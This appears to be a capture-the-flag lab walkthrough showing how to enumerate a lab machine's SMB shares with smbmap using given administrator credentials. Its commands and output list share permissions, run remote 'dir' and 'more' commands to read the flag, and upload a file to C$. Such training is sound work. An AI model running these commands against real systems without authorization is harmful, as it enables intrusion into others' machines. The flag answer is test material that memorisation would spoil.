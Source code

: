 A Kali GUI machine and a target machine running an SMB service are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the service using the tools available on the Kali machine and run the smbmap tool to enumerate the target machine service.

**[SMBMap](https://github.com/ShawnDEvans/smbmap):**

- Allows users to enumerate samba share
- Allows file upload/download/delete
- Permission enumeration (writable share, meet Metasploit)
- etc.

**Objective:** Enumerate the target machine SMB service using the smbmap tool and discover the flag.

The following username and password may be used to access the service:

| Username | Password | | administrator | smbserver_771 |

Enumerate SMB service with SMB map
```
smbmap -u administrator -p smbserver_771 -d workgroup -H 10.4.31.252

Disk                                                  	Permissions	Comment
----                                                  	-----------	-------
ADMIN$                                            	READ, WRITE	Remote Admin
C                                                 	READ ONLY	
C$                                                	READ, WRITE	Default share
D$                                                	READ, WRITE	Default share
Documents                                         	READ ONLY	
Downloads                                         	READ ONLY	
IPC$                                              	READ ONLY	Remote IPC
print$                                            	READ, WRITE	Printer Drivers

```

Get Flag by running the dir command then the more command
```
smbmap -u administrator -p smbserver_771 -d workgroup -x dir -H 10.4.31.252

 Volume Serial Number is AEDF-99BD

 Directory of C:\

12/21/2020  03:57 PM                32 flag.txt
08/22/2013  03:52 PM    <DIR>          PerfLogs
08/12/2020  04:13 AM    <DIR>          Program Files
09/05/2020  09:05 AM    <DIR>          Program Files (x86)
07/12/2024  11:00 AM                 0 PzjTQtinwk
12/19/2020  05:44 AM    <DIR>          Users
07/12/2024  10:44 AM    <DIR>          Windows
               2 File(s)             32 bytes
               5 Dir(s)     614,379,520 bytes free

```

Read the flag file by running the more command remotely
```
smbmap -u administrator -p smbserver_771 -d workgroup -x "more flag.txt" -H 10.4.31.252

25f492dbef8453cdca69a173a75790f0
```

Upload file to server via smbmap
```
smbmap -u administrator -p smbserver_771 -d workgroup --upload 'random' 'C$\random.txt' -H 10.4.31.252

[+] Starting upload: random (0 bytes)
[+] Upload complete
```